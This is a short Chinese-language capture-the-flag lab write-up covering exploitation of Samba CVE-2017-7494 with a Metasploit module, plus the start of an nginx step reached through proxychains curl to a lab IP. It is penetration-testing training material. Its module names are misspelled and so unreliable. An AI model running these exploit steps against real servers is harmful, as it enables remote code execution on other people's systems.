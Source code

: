 ### 步骤三 靶标2-3攻破

#### samba
* Samba是在Linux和UNIX系统上实现SMB协议的一个免费软件，由服务器及客户端程序构成。SMB（Server Messages Block，信息服务块）是一种在局域网上共享文件和打印机的一种通信协议，它为局域网内的不同计算机之间提供文件及打印机等资源的共享服务。SMB协议是客户机/服务器型协议，客户机通过该协议可以访问服务器上的共享文件系统、打印机及其他资源。通过设置“NetBIOS over TCP/IP”使得Samba不但能与局域网络主机分享资源，还能与全世界的电脑分享资源。

* 2017年5月24日Samba发布了4.6.4版本，中间修复了一个严重的远程代码执行漏洞，漏洞编号CVE-2017-7494，漏洞影响了Samba 3.5.0 之后到4.6.4/4.5.10/4.4.14中间的所有版本,，确认属于严重漏洞，可以造成远程代码执行。

1. 根据扫描结果搜索可用攻击模块并选择合适的模块，设置合适的options，进行攻击

```bash
search semba type:exploit
use exploit/linux/samba/is_know_pipname
# 设置options，可以使用show options查看需要设置的内容
# 执行攻击
run
```

![alt text](./pics/meta-samba.png)

2. get flag

![](./pics/getflag3.png)<br>

#### nginx

1. 设置代理curl扫描到的IP
`proxychains curl http://192.170.84.2`
![](./pics/访问第二台主机.png)<br>
